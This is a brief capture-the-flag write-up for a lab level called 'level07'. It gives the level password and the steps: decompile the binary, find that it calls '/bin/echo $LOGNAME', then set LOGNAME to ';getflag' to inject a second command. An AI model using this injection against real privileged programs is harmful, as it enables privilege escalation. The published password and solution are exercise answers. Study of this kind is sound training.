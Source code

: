 # Level 07

## Password
> wiok45aaoguiboiki2tuin6ub

## Steps
1. ```scp -P4242 level07@<ip>:/home/user/level07/level07 .```
2. Decompile binary with [Ghidra](https://dogbolt.org/)
	- We can see that the program executes the command: ```/bin/echo $LOGNAME```
3. Set custom LOGNAME value: ```export LOGNAME=';getflag'```
4. Execute binary: ```~/level07```

## Description
After setting LOGNAME as ```;getflag```, the program's command became ```/bin/echo ;getflag```

